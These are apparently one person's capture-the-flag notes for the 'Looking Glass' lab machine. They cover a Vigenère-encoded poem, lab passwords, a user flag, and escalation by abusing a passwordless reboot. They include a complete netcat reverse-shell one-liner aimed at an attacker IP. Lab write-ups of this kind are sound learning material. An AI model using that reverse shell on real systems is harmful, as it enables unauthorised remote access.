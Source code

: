 # Looking Glass



----------------------

```
export IP=10.10.186.211
```


Real service is on 12787
THIS PORT CHANGES EVERY TIME

```
You've found the real service.
Solve the challenge to get access to the box
Jabberwocky
'Mdes mgplmmz, cvs alv lsmtsn aowil
Fqs ncix hrd rxtbmi bp bwl arul;
Elw bpmtc pgzt alv uvvordcet,
Egf bwl qffl vaewz ovxztiql.

'Fvphve ewl Jbfugzlvgb, ff woy!
Ioe kepu bwhx sbai, tst jlbal vppa grmjl!
Bplhrf xag Rjinlu imro, pud tlnp
Bwl jintmofh Iaohxtachxta!'

Oi tzdr hjw oqzehp jpvvd tc oaoh:
Eqvv amdx ale xpuxpqx hwt oi jhbkhe--
Hv rfwmgl wl fp moi Tfbaun xkgm,
Puh jmvsd lloimi bp bwvyxaa.

Eno pz io yyhqho xyhbkhe wl sushf,
Bwl Nruiirhdjk, xmmj mnlw fy mpaxt,
Jani pjqumpzgn xhcdbgi xag bjskvr dsoo,
Pud cykdttk ej ba gaxt!

Vnf, xpq! Wcl, xnh! Hrd ewyovka cvs alihbkh
Ewl vpvict qseux dine huidoxt-achgb!
Al peqi pt eitf, ick azmo mtd wlae
Lx ymca krebqpsxug cevm.

'Ick lrla xhzj zlbmg vpt Qesulvwzrr?
Cpqx vw bf eifz, qy mthmjwa dwn!
V jitinofh kaz! Gtntdvl! Ttspaj!'
Wl ciskvttk me apw jzn.

'Awbw utqasmx, tuh tst zljxaa bdcij
Wph gjgl aoh zkuqsi zg ale hpie;
Bpe oqbzc nxyi tst iosszqdtz,
Eew ale xdte semja dbxxkhfe.
Jdbr tivtmi pw sxderpIoeKeudmgdstd
```

Vignere cipher with key `thealphabetcipher`


The secret is: `bewareTheJabberwock`



Gives password:

```
jabberwock:ComparedSmallWhileListened
```

THIS PASSWORD CHANGES EVERY TIME!

ComparedSmallWhileListened
LightCastlesDecidedlyMutton
JoinedBeardSlippedDismal
TrainsDistinctFlushedTwists
DoubtfulClaspingShoutedCommon


user.txt
```
thm{65d3710e9d75d5f346d2bac669119a23}
```


This user can `sudo reboot` without a password, and upon
reboot, `tweetledum` will run the script in the home directory. We can use this to get into that user.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.2.132 4444 >/tmp/f
```

As this `tweedledum` user, we see a `humptydumpty.txt` file.

```
dcfff5eb40423f055a4cd0a8d7ed39ff6cb9816868f5766b4088b9e9906961b9
7692c3ad3540bb803c020b3aee66cd8887123234ea0c6e7143c0add73ff431ed
28391d3bc64ec15cbb090426b04aa6b7649c3cc85f11230bb0105e02d15e3624
b808e156d18d1cecdcc1456375f8cae994c36549a07c8c2315b473dd9d7f404f
fa51fd49abf67705d6a35d18218c115ff5633aec1f9ebfdc9d5d4956416f57f6
b9776d7ddf459c9ad5b0e1d6ac61e27befb5e99fd62446677600d7cacef544d0
5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
7468652070617373776f7264206973207a797877767574737271706f6e6d6c6b
```

Decoding that with `xxd -r -p`, we see:

```
the password is zyxwvutsrqponmlk
```

This is the password for the `humptydumpty` user.
We cannot seem to SSH in with that. Even changing the password does not allow us to log in.

We do see a new file, `poetry.txt`


Why is there `lxc` here? Why is there a `/tmp/tmux-4`?